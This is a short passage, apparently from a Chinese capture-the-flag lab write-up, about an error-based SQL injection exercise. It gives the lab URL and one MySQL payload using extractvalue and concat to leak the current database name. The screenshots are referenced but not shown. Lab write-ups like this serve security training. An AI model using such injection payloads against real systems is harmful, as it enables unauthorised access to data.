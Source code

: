    ![在这里插入图片描述](img/2b4c8bf2036f6148485536c10c972392.png)

# 报错型盲注

【第6题】[通关地址](http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin)

名称：ErrorBased
背景：本题目为手工注入学习题目，主要用于练习基于Mysql报错的手工注入。Sqlmap一定能跑出来，所以不必测试了。
![在这里插入图片描述](img/2393f381846a581ce1de98811bd3faf8.png)【解题过程】

1.  注入点测试：![在这里插入图片描述](img/975d8dd6c4d46c8bbf5e6a948b024003.png)
2.  爆出当前数据库名称：`' and extractvalue(1,concat(0x7e,(select database()))) %23`![在这里插入图片描述](img/254974ba1867b15e3b876ed26200f2a5.png)
